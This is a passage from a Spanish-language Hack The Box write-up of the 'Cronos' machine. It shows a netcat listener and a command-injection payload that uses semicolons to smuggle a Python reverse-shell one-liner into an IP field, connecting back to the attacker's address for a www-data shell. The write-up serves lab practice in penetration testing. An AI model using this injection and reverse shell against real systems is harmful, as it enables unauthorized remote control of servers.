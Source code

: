 pudiendo ejecutar comandos como se muestra en la siguiente imagen

![Untitled](/assets/images/2022-02-08-writeup-maquina-htb-cronos/Untitled%208.png)

## Reverse shell - User www-data

aprovechando que podemos ejecutar comandos, realizaremos los pasos para realizar una reverse shell, poniendo en escucha con netcat el puerto 443

```bash
Cronos # > nc -nlvp 443
```

![Untitled](/assets/images/2022-02-08-writeup-maquina-htb-cronos/Untitled%209.png)

envio este payload para que la maquina victima se conecte a mi maquina de atacante

```bash
8.8.8.8;8.8.8.8;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.109",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

obteniendo una reverse shell con el usuario www-data

![Untitled](/assets/images/2022-02-08-writeup-maquina-htb-cronos/Untitled%2010.png)
